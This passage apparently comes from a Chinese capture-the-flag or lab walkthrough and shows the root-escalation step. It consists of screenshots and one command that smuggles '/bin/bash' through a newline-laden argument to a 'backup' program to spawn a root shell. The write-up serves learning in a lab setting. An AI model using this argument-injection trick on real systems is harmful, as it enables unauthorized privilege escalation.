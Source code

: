 ![image-20221207223843361](./img/image-20221207223843361.png)



## 获取root

斜杠截断/dev/null

```
backup -q "" '            
> /bin/bash
> '
```

![image-20221207230524986](./img/image-20221207230524986.png)

获取root
